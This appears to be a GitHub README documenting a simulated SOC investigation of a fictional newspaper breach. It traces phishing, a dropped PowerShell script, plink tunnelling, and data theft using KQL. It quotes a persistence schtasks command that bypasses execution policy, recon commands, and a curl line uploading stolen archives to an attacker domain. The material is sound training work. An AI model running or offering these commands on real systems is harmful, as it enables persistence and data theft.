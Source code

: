 # 🛡️ Valdorian Times Cybersecurity Breach: A Real-World SOC Investigation 🧠

🎥 **[Watch Full Investigation Video (kql.mp4)](https://drive.google.com/file/d/1b-IJ2acGuVvpFf12_vAxgXWQosKQmrU3/view?usp=sharing)**  
> A realistic SOC simulation built with KQL, process analysis, phishing forensics, and file exfiltration tracking.

---

## 🚀 Overview

🔍 **Attack Type**: Spear-phishing → Credential Abuse → Scheduled Tasks → Document Forgery → Data Exfiltration  
💻 **Tech Used**: Microsoft Sentinel, KQL, PowerShell, Passive DNS  
🎯 **Goal**: Find out how attackers used fake editorial documents and stolen intern accounts to inject misinformation and steal data.

---

## 📊 Phase 1: Initial Recon & Activity

### 🔍 Lois Lane
- IP Address: `10.10.0.22`
- Visited: **62 unique websites**

### 🌐 Passive DNS Search
- Domains containing `"hire"`: **6**
- `jobhire.org` resolved to: `191.7.248.112`

### 🧑 Mary Activity
- Unique Websites: **58**
- Authentication Attempts: **70**

---

## 📩 Phase 2: Suspicious Email to Clark Kent

- Email received from: **ronnie_mclovin@valdoriantimes.news**
- Subject: `URGENT: Final OpEd Draft Edits`
- Attachment: `OpEdFinal_to_print.docx`
- Sent on: `2024-01-31T11:11:12.000Z`
- Clark received **21 total emails**

Ronnie claims she never sent this email. Compromise suspected.

---

## 🕵️‍♀️ Phase 3: Sonia Gose - The Senior Editor's Lead

- IP: `10.10.0.3`
- Host: `UL0M-MACHINE`
- Received phishing email from: `newspaper_jobs@gmail.com`
- Timestamp: `2024-01-05T09:42:05.000Z`
- Link: `https://promotionrecruit.com/published/Valdorian_Times_Editorial_Offer_Letter.docx`

### 📥 File Details
- Downloaded: `C:\Users\sogose\Downloads\Valdorian_Times_Editorial_Offer_Letter.docx`
- SHA256: `60b854332e393a6a2f0015383969c3ac705126a6b7829b762057a3994967a61f`

### 🪲 Malware Drop
- Dropped file: `hacktivist_manifesto.ps1`
- Created: `2024-01-05T10:24:32.000Z`

### 🛠 Scheduled Task
```bash
schtasks /create /sc hourly /mo 5 /tn "Hacktivist Manifesto" /tr "powershell.exe -ExecutionPolicy Bypass -File C:\ProgramData\hacktivist_manifesto.ps1"
```
### 🧪 Commands Executed by the Attacker

After establishing a tunnel using `plink.exe`, the attacker executed the following commands on the compromised machine to perform network discovery and system enumeration:

```bash
whoami           # Identify the currently logged-in user
ipconfig         # Display IP configuration details
arp -a           # View the ARP cache to identify nearby network devices
tasklist /svc    # List running tasks along with associated services
net view         # Discover shared resources on the local network
```
---

## 💻 Phase 4: Ronnie McLovin - Intern Breach

- **IP**: `10.10.0.19`  
- **Host**: `A37A-DESKTOP`  
- **Received Email From**: `valdorias_best_recruiter@gmail.com`  
- **Timestamp**: `2024-01-10T08:48:16.000Z`  
- **Link Domain**: `promotionrecruit.org`

### 📥 File Details

- **Downloaded File**: `Editorial_J0b_Openings_2024.docx`
- **Dropped Payload**: `hacktivist_manifesto.ps1`  
- **Drop Time**: `2024-01-10T08:55:51.000Z`

### 🧠 Attacker Action

- **plink.exe Executed**  
  - **C2 IP**: `168.57.191.100`  
  - **Credentials Used**:  
    - Username: `$had0w`  
    - Password: `thruthW!llS3tUfree`

- **Scheduled Task Created**  
  - **Time**: `2024-01-10T10:26:32.000Z`  

- **Recon Commands Executed**:
```bash
whoami
ipconfig
arp -a
tasklist /svc
net view
```
---
## 📄 Phase 5: fakestory.docx → OpEdFinal_to_print.docx

- **Domain**: `hire-recruit.org`  
- **Downloaded File**: `fakestory.docx`  
- **SHA256**: `5f8a7b627533e22aa3e5c3594605dc6fe6f000b0cc2b845ece47ca60673ec7f`  
- **Created On**: `2024-01-31T09:47:51.000Z`

### ➡️ Renamed & Moved
```plaintext
C:\Users\romclovin\Documents\OpEdFinal_to_print.docx
```
Timestamp: 2024-01-31T10:26:20.000Z

📧 Sent via Email to Clark Kent: 2024-01-31T11:11:12.000Z
⏱️ Elapsed Time: 44 minutes

---

## 📦 Phase 6: Data Theft & Exfiltration

### 🗃️ Files Created by the Attacker
- `DankMemes.7z`
- `MyStolenDataFromDocuments.7z`
- `MyStolenDataFromDesktop.7z`

🔐 **Password for All Archives**: `thruthW!llS3tUfree`

### 📤 Exfiltration Command
```bash
curl -F "file=@C:\Users\romclovin\Documents\*.7z" https://hirejob.com/exfil_processor/upload.php

```
🌐 Destination Domain: hirejob.com
---
## 📂 Repository Structure

```bash
Valdorian-Incident-Investigation/
├── README.md                      # 📝 Project summary and case details
├── kql.mp4                        # 🎥 Full investigation video
├── data/
│   ├── IOC_list.txt               # 📄 IPs, hashes, domains
│   └── investigation_logs.txt     # 🕵️ Full attack timeline & investigation steps
├── assets/
│   └── phishing_flowchart.png     # 🧭 (Optional) Visual representation of phishing chain
```
---
## 🧠 Learnings

 **KQL in action**: Real queries across web, DNS, authentication & process logs  
 **Tracking PowerShell scripts and scheduled tasks**  
 **Detecting spear-phishing and content spoofing**  
 **Building incident timelines from metadata**  
 **Reconstructing the attack chain from internal telemetry**
---------------------------------------------------------------------------------------------------------------

